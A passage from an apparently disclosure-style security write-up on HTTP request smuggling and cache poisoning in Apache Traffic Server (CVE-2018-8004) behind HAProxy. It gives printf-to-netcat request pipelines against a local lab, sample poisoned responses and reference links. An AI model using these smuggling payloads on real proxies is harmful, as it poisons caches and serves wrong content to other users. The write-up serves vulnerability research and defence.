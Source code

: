         |<--A-----------|               |--B----------->|
        |               |               |<-B------------|
        |               |<-B------------|               |
     [ouch]<-B----------|               |               | * wrong resp. *
        |               |               |--C----------->|
        |               |               |<--C-----------|
        |              [R]<--C----------|               | rejected

First, we need to init cache, we use port 8001 to get a stream HaProxy->ATS->Nginx.

{% highlight bash %}
printf 'GET /index.html?cache=cogip2000 HTTP/1.1\r\n'\
'Host: dummy-host7.example.com\r\n'\
'Cache-control: max-age=300\r\n'\
'Content-Length: 0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8001
{% endhighlight %}

You can run it two times and see that on a second time it does not reach the nginx `access.log`.

Then we attack HaProxy, or any other cache set in front of this HaProxy.
We use a pipeline of **2 queries**, ATS will send back **3 responses**.
If a keep-alive mode is present in front of ATS there is a security problem.
Here it's the case because we do not use `option: http-close` on HaProxy (which would prevent usage of pipelines).

{% highlight bash %}
printf 'GET /index.html?cache=cogip2000 HTTP/1.1\r\n'\
'Host: dummy-host7.example.com\r\n'\
'Cache-control: max-age=300\r\n'\
'Content-Length: 74\r\n'\
'\r\n'\
'GET /index.html?evil=cogip2000 HTTP/1.1\r\n'\
'Host: dummy-host7.example.com\r\n'\
'\r\n'\
'GET /victim.html?cache=zorglub HTTP/1.1\r\n'\
'Host: dummy-host7.example.com\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8001
{% endhighlight %}

Query for `/victim.html` (should be a 404 in our example) gets response for `/index.html` (`X-Location-echo: /index.html?evil=cogip2000`).

{% highlight http %}
HTTP/1.1 200 OK
Server: ATS/7.1.1
Date: Fri, 26 Oct 2018 16:05:41 GMT
Content-Type: text/html
Content-Length: 120
Last-Modified: Fri, 26 Oct 2018 14:16:28 GMT
ETag: "5bd321bc-78"
X-Location-echo: /index.html?cache=cogip2000
X-Default-VH: 0
Cache-Control: public, max-age=300
Accept-Ranges: bytes
Age: 12

$<html><head><title>Nginx default static page</title></head>
<body><h1>Hello World</h1>
<p>It works!</p>

  [FRENCH]: https://www.makina-corpus.com/blog/metier/2018/securite-contrebande-de-http-apache-traffic-server
  [SHODAN]: https://www.shodan.io/search?query=Server%3A+ATS
  [ATS]: http://trafficserver.apache.org/
  [CVE]: https://nvd.nist.gov/vuln/detail/CVE-2018-8004
  [CVE_2016_8743]: https://nvd.nist.gov/vuln/detail/CVE-2016-8743
  [PULL_REQUEST_3192]: https://github.com/apache/trafficserver/pull/3192
  [PULL_REQUEST_3201]: https://github.com/apache/trafficserver/pull/3201
  [PULL_REQUEST_3231]: https://github.com/apache/trafficserver/pull/3231
  [PULL_REQUEST_3251]: https://github.com/apache/trafficserver/pull/3251
  [RFC7230_3_3_2]: https://tools.ietf.org/html/rfc7230#section-3.3.2
  [RFC7230_3_3_3]: https://tools.ietf.org/html/rfc7230#section-3.3.3
  [RFC7230_3_2_4]: https://tools.ietf.org/html/rfc7230#section-3.2.4
  [HAPROXY]: https://www.haproxy.org/
  [NGINX_ISSUE]: https://trac.nginx.org/nginx/ticket/1014
  [ANNOUNCE]: https://lists.apache.org/thread.html/7df882eb09029a4460768a61f88a30c9c30c9dc88e9bcc6e19ba24d5@%3Cusers.trafficserver.apache.org%3E
  [PREVIOUS_DETAILS]: https://regilero.github.io/security/english/2015/10/04/http_smuggling_in_2015_part_one/#toc4
  [ALBINOWAX]: https://twitter.com/albinowax
  [DESYNC]: https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn
  [BURP]: https://portswigger.net/burp/communitydownload